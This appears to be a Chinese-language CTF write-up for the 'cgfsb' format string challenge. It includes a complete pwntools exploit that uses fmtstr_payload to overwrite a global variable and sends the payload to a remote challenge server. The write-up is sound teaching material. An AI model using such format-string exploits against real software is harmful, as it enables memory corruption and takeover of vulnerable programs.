 ## cgfsb

2019-5-20

### 解题

这是一道格式化字符串的题目

题目要求把一个全局变量的值赋值为8

下面是exp

```python
#!/usr/bin/python2
#coding: utf8
from pwn import *
import time

pwnme = 0x804A068 #全局变量的内存地址

value = 8         #要赋成的值

context.log_level = "debug" #让pwntools输出调试信息


def exec_fmt(payload):  #需要定义一个函数，这个函数能够返回printf(输入的格式化字符串)所打印的字符串
    p = remote("111.198.29.45", "44114")
    p.sendline("leaf")
    time.sleep(1)
    p.recv()
    p.sendline(payload)
    time.sleep(1)
    response = p.recv()

    return response

autofmt = FmtStr(exec_fmt)  #自动计算参数的位置，此处计算出来为10
#生成格式化字符串payload，位置为10，第二个参数为覆盖值的设置，格式为{要覆盖数值的地址:覆盖成的数值}
payload = fmtstr_payload(10, {pwnme: 8}) 

p = remote("111.198.29.45", "44114")
p.sendline("leaf")
time.sleep(1)
p.recv()
p.sendline(payload)
time.sleep(1)
print p.recv()

```

### 关于格式化字符串漏洞

如果没有用过格式化字符串建议先看一下ctf-wiki上的[格式化字符串介绍](<https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_intro/#_4>)

